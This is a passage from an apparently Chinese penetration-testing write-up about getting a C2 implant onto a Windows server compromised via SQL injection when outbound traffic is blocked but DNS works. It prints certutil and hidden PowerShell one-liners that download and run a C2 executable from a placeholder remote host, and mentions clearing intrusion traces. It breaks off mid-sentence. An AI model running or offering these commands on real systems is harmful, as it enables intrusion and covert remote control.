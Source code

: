 # 2# 情况分析

怎么判断不出网但能 DNS 解析呢？如下图：

[![](assets/1707954388-e9699da104680dd0287e5c596ebb815d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240204180840-5eaa1688-c345-1.png)

通常来说，在红蓝攻防中 Web 打点成功后，一般会上传 C2 并上线清理入侵痕迹，然后再去搜索敏感文件以及对内网资产进行探查。

**上传 C2 到服务器一般有以下操作（针对 Win）：**

1.  **通过 WebShell 上传 C2 文件并执行**
2.  **通过 `Certutil` 远程下载 C2 文件并执行**
3.  **通过 `PowerShell` 远程下载 C2 文件并执行**

通过 `Certutil` 远程下载 C2 文件并执行

```plain
certutil -urlcache -gmt -split -f http://C2文件远程地址 C2 文件名.exe && C2 文件名.exe 执行参数
```

通过 `PowerShell` 远程下载 C2 文件并执行

```plain
powershell.exe -ExecutionPolicy bypass -noprofile -windowstyle hidden (new-object system.net.webclient).downloadfile('http://C2 文件远程地址','C2 文件名.exe') && C2 文件名.exe 执行参数
```

但我们目前的情况是不出网，那就意味着无法通过公网直接下载可执行文件，也无法正常上线 C2 服务，在这种 SQL 注入恶劣环境我们该何去何从呢？

这种情况，写入可执行文件都很难了，上线 C2 都基本不可能了，更别说提权和内网渗透了。。

# 3# 骚操作开始

我刚开始也卡了半天，没有权限写 Web 目录（意味着写不了 Webshell），登录网站后台也没有什么功能点（没有文件上传、没有文件包含），不出网也就无法下载相关的可执行文件，让我一时半会没了方向。

摸了几天，同时也请教了不少大佬，感觉都没思路了，突然想起来我之前这篇文章： [《苛刻条件下:C2 上传执行骚姿势》](https://blog.zgsec.cn/archives/158.html) ，于是我有了一个大胆的想法，我决定尝试一下

我们再来复习一下 Windows 系统的自带工具：`Certutil`

`certutil.exe` 是一个合法 Windows 文件，用于管理 Windows 证书的程序。

微软官方是这样对它解释的：
